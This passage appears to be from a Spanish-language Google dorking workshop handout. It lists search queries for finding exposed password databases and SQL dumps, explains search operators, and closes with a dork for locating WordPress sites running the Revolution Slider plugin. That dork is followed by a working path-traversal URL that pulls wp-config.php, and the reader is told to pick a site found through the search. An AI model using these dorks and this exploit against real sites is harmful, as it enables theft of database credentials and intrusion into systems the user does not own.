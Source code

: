 #### Base de Datos
```
intitle:index.of password.mdb
ext:asa mdb
ext:asa SERVER=(local)
index of ftp +.mdb allinurl:/cgi-bin/ +mailto
filetype:sql “# dumping data for table” “`PASSWORD` varchar”
```
## Operadores

#### Búsqueda de términos

Frase exacta

```
"Tinned Sandwiches"
```

#### OR

```
site:facebook.com | site:twitter.com
```

#### AND

```
site:facebook.com & site:twitter.com
```

#### Combinación de operadores

```
(site:facebook.com | site:twitter.com) & intext:"login"
(site:facebook.com | site:twitter.com) (intext:"login")
```

#### Excluir resultados

```
site:facebook.* -site:facebook.com
```

#### Patron Global (*)

```
site:*.com
```

###  DORKING EN WORDPRESS

Empezemos con este dork
```
Dork: inurl:/wp-content/plugins/revslider/
```
Dicho dork te permite ubicar sitios vulnerables en los que podrías obtener uno de los archivos de configuración principales del CMS, elija un sitio, a ese sitio que eligió para efectos del taller le llamaremos <www.vulnerable.com>
```
http://<www.vulnerable.com>/wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php
```
